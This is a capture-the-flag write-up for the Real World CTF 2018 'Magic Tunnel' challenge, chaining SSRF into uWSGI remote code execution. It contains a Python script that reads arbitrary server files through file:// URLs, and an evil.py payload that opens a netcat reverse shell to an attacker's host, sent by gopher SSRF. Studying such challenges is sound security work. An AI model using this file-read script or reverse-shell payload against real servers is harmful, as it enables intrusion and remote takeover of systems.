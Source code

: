 ### References

- [@veneno, RWCTF-Magic Tunnel-WP, 2018-12-06](https://xz.aliyun.com/t/3512)
- [@zaratec, Real World CTF 2018 | Magic Tunnel, 2018-12-20](https://zaratec.github.io/2018/12/20/rwctf2018-magic-tunnel/)
- [@phith0n, realworldctf/magic_tunnel/README.md](https://github.com/phith0n/realworldctf/tree/master/2018/magic_tunnel)
- [@wofeiwo, uWSGI 远程代码执行漏洞](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md)

**Tag: SSRF, uWSGI rce**

1.Use `file:///proc/mounts` we can find WEB directory

```tex
/usr/src/rwctf
```

and read `file:///proc/self/cmdline` we can see the process is a uWSGI server with exposed 8000 port.

2.Read arbitrary files script:

```python
import re
import requests

s = requests.session()
response = s.post('http://192.168.200.129:8080/', data={
    'url': 'file:///usr/src/rwctf/manage.py',
    'csrfmiddlewaretoken': 'QSroJ2yRuVRFFXkT2m6hHYlRKdpwK6MYX9f1wcHW87DJeTJelzg3WRZxjIXhHNhp'
}, cookies={'csrftoken': 'QSroJ2yRuVRFFXkT2m6hHYlRKdpwK6MYX9f1wcHW87DJeTJelzg3WRZxjIXhHNhp'}, allow_redirects=True)
# print(response.text)

g = re.search('<img src="(.+?)"', response.text)
filename = g.group(1)
print(filename)

response = s.get('http://192.168.200.129:8080' + filename)
print(response.text)

```

Download and read the source code.

3.Know the "magic variables" [UWSGI_FILE](https://uwsgi-docs.readthedocs.io/en/latest/Vars.html)-Load the specified file as a new dynamic app, and then we can use gopher+SSRF to execute arbitrary script on the server.

4.Download evil.py:

```python
import os
os.system("nc your-ip 9001 -e /bin/sh")
```

![](https://i.imgur.com/CDjAYpG.png)

5.Generate evil uwsgi protocol bytes, `/usr/src/rwctf/media/2021/05/16/fb08beef-ebce-41e5-9b75-1316552e102b` is the evil python code that you have downloaded.

6.Use SSRF to send evil bytes to uwsgi port 8000:

![](https://i.imgur.com/xf0rL0t.png)